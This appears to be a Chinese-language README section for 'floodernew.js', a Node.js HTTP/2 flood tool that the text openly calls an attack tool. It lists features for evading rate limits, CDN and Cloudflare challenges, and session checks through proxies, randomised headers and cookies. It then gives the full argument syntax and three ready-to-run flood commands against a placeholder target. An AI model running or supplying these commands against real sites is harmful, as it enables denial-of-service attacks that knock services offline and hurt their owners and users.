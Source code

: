 
## 🔥 核心工具深度解析

### 🎯 工具 1: `floodernew.js` - 终极 HTTP/2 洪水攻击

**技术栈**:
```javascript
Node.js HTTP/2 + TLS + HPACK + Cluster
```

**核心功能**:
- ✅ **HTTP/2 原生支持** - 完整的 HPACK 压缩
- ✅ **多进程攻击** - Cluster 模式，充分利用 CPU
- ✅ **自定义头部** - 支持任意自定义请求头
- ✅ **Cookie 支持** - 绕过会话验证
- ✅ **随机化** - UA、Referer、Path 随机化
- ✅ **速率限制绕过** - `--limit` 参数智能绕过限流
- ✅ **调试模式** - 实时查看状态码
- ✅ **延迟控制** - 精确控制请求延迟

**命令行参数**:
```bash
node floodernew.js <GET/POST> <target> <time> <threads> <ratelimit> <proxy> [options]

Options:
  --limit true/null          # 绕过速率限制
  --query 1/2/3              # 随机 query string
                             # 1 = ?cf__chl_tk
                             # 2 = ?randomstring
                             # 3 = ?q=randomvalue
  --debug                    # 显示状态码
  --delay <1-50>             # 设置延迟（毫秒）
  --cookie <cookie>          # 自定义 Cookie
  --referer <referer>        # 自定义 Referer
  --postdata <data>          # POST 数据
  --header <headers>         # 自定义头部
  --http <1/2/mix>           # 强制 HTTP 版本
  --randrate <rate>          # 随机速率
  --randpath <path>          # 随机路径
  --bfm <value>              # BFM 模式
  --precheck <value>         # 预检查
  --cdn <value>              # CDN 绕过
```

**使用示例**:
```bash
# 基础攻击
node floodernew.js GET "https://target.com" 120 16 90 proxy.txt

# 高级攻击 - 绕过 CDN 限流
node floodernew.js GET "https://target.com?q=%RAND%" 300 32 120 proxy.txt \
    --limit true \
    --query 1 \
    --delay 10 \
    --debug

# 使用 Cookie 攻击（绕过验证码后）
node floodernew.js POST "https://target.com/api" 180 24 100 proxy.txt \
    --cookie "__cfduid=xxx; session_id=yyy" \
    --postdata "action=submit&data=test" \
    --header "Authorization: Bearer token123"
```

